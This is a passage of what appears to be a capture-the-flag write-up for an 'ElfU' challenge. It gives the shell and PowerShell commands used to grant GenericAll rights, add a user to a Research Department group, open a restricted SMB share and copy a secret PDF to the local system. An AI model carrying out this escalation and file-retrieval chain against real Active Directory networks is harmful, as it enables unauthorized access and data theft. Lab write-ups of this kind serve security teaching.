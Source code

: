 Again, transfer this script to the ElfU server using `scp` and execute it.  Then, verify that our user has been added to the Research Department group.

``` title="Local System"
scp -P 2222 Grant_GenericAll_and_Add_to_Group.ps1 cauovojfjy@grades.elfu.org:~/
```
``` powershell title="ElfU System"
Invoke-Command -ComputerName 10.128.1.53 -FilePath Grant_GenericAll_and_Add_to_Group.ps1 -Credential $aCred -Authentication Negotiate
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-ADUser -identity cauovojfjy -properties MemberOf } -Credential $aCred -Authentication Negotiate
```
??? info "Screenshot"
    ![](image16.png)


### Step 7: Retrieve the file from the research_dep share

Now that we are in the Research Department security group, connect to the research_dep share.
``` title="ElfU System"
smbclient \\\\172.17.0.3\\research_dep -U cauovojfjy
```

Once connected, we find the file SantaSecretToAWonderfulHolidaySeason.pdf, so retrieve it with `smb get`<br>
??? info "Screenshot"
    ![](image17.png)

Finally, retrieve the file to our local system using `scp` and open it to find the answer to the objective.

``` title="Local System"
scp -P 2222 cauovojfjy@grades.elfu.org:~/SantaSecretToAWonderfulHolidaySeason.pdf ./
```
